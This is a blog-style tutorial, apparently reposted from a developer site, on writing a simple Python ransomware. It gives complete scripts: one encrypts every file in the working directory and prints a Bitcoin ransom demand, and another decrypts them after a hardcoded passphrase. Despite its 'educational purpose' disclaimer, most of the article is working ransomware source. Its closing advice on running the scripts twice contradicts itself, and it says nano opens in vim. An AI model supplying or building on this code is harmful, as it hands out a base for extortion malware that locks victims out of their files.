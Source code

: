 # Create ransomware script in python & test

Today, we're going to create our own ransomware.
Aha, sounds interesting? It's not so complicated to build a simple one. We just need a system to test on where python is installed.

> DISCLAIMER: This whole article is purely for educational purpose only. My sole aim here is to teach how to create your own ransomware script in python3.

---

## What is a ransomware??

Ransomware is a malware designed to deny a user or organization access to files on their computer. By encrypting these files and demanding a ransom payment for the decryption key, cyberattackers place organizations in a position where paying the ransom is the easiest and cheapest way to regain access to their files.

The malware first gains access to the device. Depending on the type of ransomware, either the entire operating system or individual files are encrypted. A ransom is then demanded from the victim.

---

## Requirements:

1. A linux-based OS or [Windows Subsystem for Linux](https://dev.to/nitinkumar30/use-search-files-created-using-ubuntu-on-windows-1jid)
2. Internet connection

---

## Our approach !!

1. First, we'll need encrypt method which can encrypt the files
2. Then, we need to decrypt mthod which can decrypt the encrypted files if ransom is provided
3. We also need to keep key, which was used to encrypt the files & folders, so that decrypt the files, once ransom is fulfilled

---

## Let's begin !!

Let's break this into small chunks:

1. Create necessary files & folders
2. Write down our script for Encrypting the files
3. Write down our script for Decrypting the files
4. Giving the finishing touch to the project

---

## 1. Create necessary files & folders

Step 1: As everything is configured for you, open the Ubuntu on Windows. If not yet, checkout my recent post on it [here](https://dev.to/nitinkumar30/use-search-files-created-using-ubuntu-on-windows-1jid)
Step 2: Create a new folder using `mkdir ransomware` to create a directory named **ransomware**  
Step 3: Navigate to that directory using `cd ransomware`
Step 4: Create some random files with below commands:
        

```
        echo "This is a file" > file.txt
```

```
        echo "This is another file" > file2.txt
```
  

```
        echo "This is yet another 3rd file" > file3.txt
```
  

```
        echo "What is your name btw" > name.txt
```

Step 5: Now, create a directory with following command - `mkdir test`  
Step 6: You can check the contents of the files just created by running **cat** command - `cat file.txt` or `cat name.txt`  

---

## 2. Write down our script for Encrypting the files

Step 1: Now, we need to create our encrypting file to encrypt the required files, type the command - `nano voldemort.py`. This will create a python file with name voldemort & will open in vim editor.
Step 2: Following is the python code for encryption part.


```
#!/usr/bin/env python3

# importing necessary libraries
import os
from cryptography.fernet import Fernet

# Let's find some files

files = []

# checking all the files in current directory
for file in os.listdir():
        # ignoring the encrypting, decrypting & the key file
	if file == "voldemort.py" or file == "thekey.key" or file == "decrypt.py":
		continue
	if os.path.isfile(file):
		files.append(file)
# print all the files which is going to be infected with encryption
print(files)

# Generate the key used to encrypt the files
key = Fernet.generate_key()

# print(key)

# write the key into the file thekey.key
with open("thekey.key", "wb") as thekey:
	thekey.write(key)

# This is the main method which is encrypting all the files with the given key
for file in files:
	with open(file, "rb") as thefile:
		contents = thefile.read()
	contents_encrypted = Fernet(key).encrypt(contents)
	with open(file, "wb") as thefile:
		thefile.write(contents_encrypted)

# The message which will be shown to the users
print("All your files has been encrypted !!\nSend me 100 Bitcoins or I'll delete them in 24 hours.")
```

---

## 3. Write down our script for Decrypting the files

Step 1: Now, we need to create our decrypting file. Type in the command - `nano decrypt.py`  
Step 2: Following is the python code for decryption part.

```
#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# Let's find some files

files = []

for file in os.listdir():
	if file == "voldemort.py" or file == "thekey.key" or file == "decrypt.py":
		continue
	if os.path.isfile(file):
		files.append(file)

print(files)


# key = Fernet.generate_key()

# print(key)

with open("thekey.key", "rb") as key:
	secretkey = key.read()

secretphrase = "coffee"

user_phrase = input("Enter the secret phrase to decrypt your files\n")
if user_phrase == secretphrase:
	for file in files:
		with open(file, "rb") as thefile:
			contents = thefile.read()
		contents_decrypted = Fernet(secretkey).decrypt(contents)
		with open(file, "wb") as thefile:
			thefile.write(contents_decrypted)

	print("Congrats, your files has been decrypted & safe now. Enjoy your coffee")
else:
	print("Sorry, wrong secret phrase. Send me more Bitcoins !!")

```

> Here, you'll observe that the encryption & decryption script are almost similar. Yes, they're. Actually, I've just copied the exact encryption file to create the decryption file & then done some minor changes to it.

---

## 4. Giving the finishing touch to the project

Now is the time to test our ransomware is working or not.

Here, we'll check by first checking the files are having decrypted data or not.
Then, we'll run the encrypt file & check the files are encrypted or not
Then, we'll run the decrypt file & check the files are decrypted with original data or not.

Step 1: Run the command - `cat file.txt` & then for remaining files
Step 2: Run the encrypting file - `python3 voldemort.py`
Step 3: Rerun step 1. You should see some random string is there in the contents of files
Step 4: Now, run the decrypting file - `python3 decrypt.py`. Give secretphrase as **coffee** to pass the security check. You can change it in decrypt file.
Step 5: Rerun step 1. You should see now, all the files will have original data of files. 

---

Note - Never run the encrypt file twice, else, you'll not be able to recover your files again. You can run encrypt file n number of times, but not the decrypt file.

- This complete tutorial can be found in [NetworkChuck video](https://youtu.be/UtMMjXOlRQc?si=UeHz6Wyy4IohhAPt)

---

Feel free to reach out to me via [LinkedIn](https://www.linkedin.com/in/nitin30kumar/), [Instagram](https://www.instagram.com/nitinkumar30.py/) or checkout my [Portfolio](https://nitinkr.me).

HAPPY HACKING !!!
